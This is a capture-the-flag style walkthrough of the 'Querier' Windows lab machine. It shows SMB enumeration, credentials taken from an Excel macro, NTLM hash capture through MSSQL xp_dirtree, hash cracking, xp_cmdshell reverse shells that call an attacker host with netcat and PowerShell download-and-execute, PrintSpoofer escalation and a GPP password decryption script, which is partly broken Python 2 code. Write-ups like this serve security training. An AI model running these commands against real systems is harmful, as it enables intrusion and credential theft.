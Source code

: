 ```yaml
---
sort : 2
---
```


# Querier

PORT        STATE   SERVICE         VERSION
135/tcp     open    msrpc           Microsoft Windows RPC
139/tcp     open    netbios-ssn     Microsoft Windows netbios-ssn
445/tcp     open    microsoft-ds?
1433/tcp    open    ms-sql-s        Microsoft SQL Server 2017 14.00.1000.00; RTM
5985/tcp    open    wsman
47001/tcp   open    winrm
5985/tcp    open    http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp   open    http            Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0


```bash
$ smbclient -N -L \\\\IP

$ smbclient -N \\\\IP\ShareName

smb> get File.xlsm

# you can unzip the xlsm files !!!!!! 
$ unzip File.xlsm

# macros usually stored at xl/vbaProject.bin
$ strings xl/*.bin

# OR !! 
$ olevba File.xlsm 
# VBA MACRO ThisWorkbook.cls 
# in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

# ' macro to pull data for client volume reports
# '
# ' further testing required

# Private Sub Connect()

# Dim conn As ADODB.Connection
# Dim rs As ADODB.Recordset

# Set conn = New ADODB.Connection
# conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
# conn.ConnectionTimeout = 10
# conn.Open

# If conn.State = adStateOpen Then

#   ' MsgBox "connection successful"
 
#   'Set rs = conn.Execute("SELECT * @@version;")
#   Set rs = conn.Execute("SELECT * FROM volume;")
#   Sheets(1).Range("A1").CopyFromRecordset rs
#   rs.Close

# End If

# End Sub
# -------------------------------------------------------------------------------
# VBA MACRO Sheet1.cls 
# in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
# (empty macro)
# +----------+--------------------+---------------------------------------------+
# |Type      |Keyword             |Description                                  |
# +----------+--------------------+---------------------------------------------+
# |Suspicious|Open                |May open a file                              |
# |Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
# |          |                    |used to obfuscate strings (option --decode to|
# |          |                    |see all)                                     |
# +----------+--------------------+---------------------------------------------+
```

the user is "Reporting"
it's password is "PcwTWTHRwryjc$c6"

## Connecting to MSSQL DB

```bash
$ impacket-mssqlclient USERNAME:'PASSWORD'@IP -windows-auth

$ impacket-mssqlclient Reporting:'PcwTWTHRwryjc$c6'@IP -windows-auth
# [-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.

# you should find a user with SA privilege
SQL> select IS_SRVROLEMEMBER ('sysadmin')
# ------   
#  0 

# there isn't any !! 

# we can steal hashes of the SQL service account by using xp_dirtree or xp_fileexist.


# and on another terminal 
$ impacket-smbserver share-kali . -smb2support

# then back to impacket-mssqlclient
SQL> xp_dirtree '\\IP_tun0\share-kali\any.txt'

# look at the smb-server you ran, this will show the NTLM hash of the user !! 

# [*] User QUERIER\mssql-svc authenticated successfully
# [*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:f439c56c09a064c19b40fee71273d309:01010000000000000097f8fed4d4d90104f8ab380c1da0d80000000001001000630048004e006500570042005900520003001000630048004e0065005700420059005200020010004e0050005800580067004d006a004100040010004e0050005800580067004d006a004100070008000097f8fed4d4d90106000400020000000800300030000000000000000000000000300000788328683007061b88c05e4481a96893d7adb2d4d910c47adf66d466f8b6f5530a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000
# [*] Connecting Share(1:IPC$)
# [*] Connecting Share(2:share-kali)
# [*] AUTHENTICATE_MESSAGE (\,QUERIER)
# [*] User QUERIER\ authenticated successfully
# [*] :::00::aaaaaaaaaaaaaaaa


$ echo "mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:59e20e11c6e191c8ec687d9227d6f074:0101000000000000002f2676c5d4d90181d517003f90cf7e000000000100100041007a004800770071007700410079000300100041007a00480077007100770041007900020010007700580070004b0057004e004b004900040010007700580070004b0057004e004b00490007000800002f2676c5d4d90106000400020000000800300030000000000000000000000000300000788328683007061b88c05e4481a96893d7adb2d4d910c47adf66d466f8b6f5530a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000" > hash

$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt # corporate568

$ impacket-mssqlclient mssql-svc:'corporate568'@IP -windows-auth
SQL> select IS_SRVROLEMEMBER ('sysadmin')
# ------   
#  1 

SQL> enable_xp_cmdshell # success !! 
SQL> xp_cmdshell "type ..\..\Users\mssql-svc\Desktop\user.txt"

# to get a reverse shell, and bypass the AV 
# install nc64.exe from github https://github.com/int0x33/nc.exe/
# download nc64.exe on the smb-server on the attacker machine.

SQL> xp_cmdshell "copy \\IP_tun0\share-kali\nc64.exe C:\Users\Public\nc64.exe"

# why we copied it to the Public folder ..... cuz it's mostly writable !! 

$ nc -lnvp 1234

SQL> xp_cmdshell "C:\Users\Public\nc64.exe -e cmd.exe IP_tun0 1234" 

C:\Windows\system32> # Good luck

C:\Windows\system32> whoami /all

C:\Windows\system32> whoami /priv
# PRIVILEGES INFORMATION
# ----------------------

# Privilege Name                Description                               State   
# ============================= ========================================= ========
# SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
# SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
# SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
# SeImpersonatePrivilege        Impersonate a client after authentication Enabled   ==> this always can be exploited 
# SeCreateGlobalPrivilege       Create global objects                     Enabled 
# SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### nishang reverse shell 

> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```tip
since Invoke-PowerShellTcp.ps1 is a module, running the reverse shell in one line could not work, so it's better to add the function you wanna call at the end of the module so you can run it directly !!

.EXAMPLE - add this line at the end
Invoke-PowerShellTcp -Reverse -IPAddress IP_tun0 -Port 4444
```

on 3 terminals

```bash
$ python3 -m http.server 4444
```

```bash
$ nc -lnvp 1234
```

```bash
SQL> xp_cmdshell "powershell -c iex(iwr http://IP_tun0:4444/shell.ps1)"
```

```note
some times due to windows firewall, you need to make your netcat listen on port 80 or 443 
```

### hoaxshell reverse shell

### reverse shell generator reverse shell


```tip
pick the method that bypasses the AV  
```

<!-- ## ntlm relay

## what is mssql-svc


type of windows accounts: 
* user aacount 
* machine account
* service account ======> mostly it has the SeImpersonatePrivilege enabled !! 

## SE impersonate

## access tockens exploits hack

### what are Access Tokens

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/access-tokens 

Each user logged onto the system holds an access token with security information for that logon session. The system creates an access token when the user logs on. Every process executed on behalf of the user has a copy of the access token. The token identifies the user, the user's groups, and the user's privileges. A token also contains a logon SID (Security Identifier) that identifies the current logon session.

When a local administrator logins, two access tokens are created: One with admin rights and other one with normal rights. By default, when this user executes a process the one with regular (non-administrator) rights is used. When this user tries to execute anything as administrator ("Run as Administrator" for example) the UAC will be used to ask for permission.
If you want to learn more about the UAC read this page. -->

```bash
$ nc -lnvp 1235
```

```powershell
C:\Windows\system32> PrintSpoofer64.exe -c "rev.exe IP_tun0 1235 -e cmd.exe"
```

```tip
PrintSpoofer :: used mostly when you have a service account
JuicyPotato  :: used mostly when you have a user account
```


## gpp vulnerability privilege escalation

```powershell
# After running Powerup

PS> cat ​'C:\ProgramData\Microsoft\Group
Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\G
roups\Groups.xml'
```

To decrypt the Administrator password

```python
from Crypto.Cipher import AES
from base64 import b64decode

cpassword = "CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ"

# From MSDN: http://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be%28v=PROT.13%29 #endNote2

key = ​"""
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8
f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
"""​.replace(​" "​,​""​).replace(​"\n"​,​""​).decode(​'hex'​)

# Add padding to the base64 string and decode it
cpassword += ​"="​ * ((4 - len(cpassword) % 4) % 4)
password = b64decode(cpassword)

# Decrypt the password
o = AES.new(key, AES.MODE_CBC, ​"\x00"​ * 16).decrypt(password)

# Print it
print​ o[:-ord(o[-1])].decode(​'utf16'​)
```

Good luck ^^

```bash
$ python3 psexec.py Administrator:​'MyUnclesAreMarioAndLuigi!!1!'​@IP
```

























